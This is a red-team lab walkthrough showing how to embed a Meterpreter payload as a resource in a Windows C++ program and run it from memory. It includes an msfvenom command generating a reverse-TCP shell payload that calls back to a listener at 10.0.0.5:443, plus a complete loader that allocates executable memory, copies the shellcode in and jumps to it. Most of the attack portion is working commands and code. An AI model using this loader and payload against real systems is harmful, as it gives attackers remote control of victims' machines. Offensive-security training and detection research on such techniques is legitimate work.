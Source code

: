 # Loading and Executing Shellcode From PE Resources

## Context

This lab shows one of the techniques how one could load and execute a non-staged shellcode from within a C program using PE resources using Visual Studio.

If you've ever tried executing an unstaged shellcode from a C/C++ program, you know that you will be having a hard time doing it if you are defining a huge char array which looks like this (just a snippet):

![](<../../.gitbook/assets/Screenshot from 2019-04-21 12-33-31.png>)

Below is a quick walkthrough that was inspired by [@\_RastaMouse](https://twitter.com/\_RastaMouse) tweet:

![](<../../.gitbook/assets/Screenshot from 2019-04-21 13-13-14.png>)

## Embedding The Shellcode as a Resource

Let's generate a non-staged meterpreter payload in binary format first. This will be our resource that we want to embed into our C++ program:

```csharp
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=443 > meterpreter.bin
```

Right click on the `Resource Files` in Solution Explorer and select `Add > Resource`

![](<../../.gitbook/assets/Screenshot from 2019-04-21 12-37-31.png>)

Click `Import` and select the resource you want to include. In my case - it's the `meterpreter.bin`:

![](<../../.gitbook/assets/Screenshot from 2019-04-21 11-42-31.png>)

Give resource a resource type name - anything works, but you need to remember it when calling `FindResource` API call (shown later in the code):

![](<../../.gitbook/assets/Screenshot from 2019-04-21 11-43-59.png>)

At this point, you can see in your resource browser that the `meterpreter.bin` is now included in your program's resources:

![](<../../.gitbook/assets/Screenshot from 2019-04-21 11-45-49.png>)

![](<../../.gitbook/assets/Screenshot from 2019-04-21 12-07-17.png>)

If you compile your program now and inspect it with resource hacker, you can now see the shellcode you have just embedded as a PE resource:

![](<../../.gitbook/assets/Screenshot from 2019-04-22 17-35-35.png>)

## Code

We can then leverage a small set of self-explanatory Windows APIs to find the embedded resource, load it into memory and execute it like so:

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include "resource.h"

int main()
{
	// IDR_METERPRETER_BIN1 - is the resource ID - which contains ths shellcode
	// METERPRETER_BIN is the resource type name we chose earlier when embedding the meterpreter.bin
	HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_METERPRETER_BIN1), L"METERPRETER_BIN");
	DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
	HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);
	
	void *exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcodeResouceData, shellcodeSize);
	((void(*)())exec)();

	return  0;
}
```

Compile and run the binary and enjoy the shell:

![](<../../.gitbook/assets/Peek 2019-04-21 12-30.gif>)

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/menurc/finding-and-loading-resources" %}
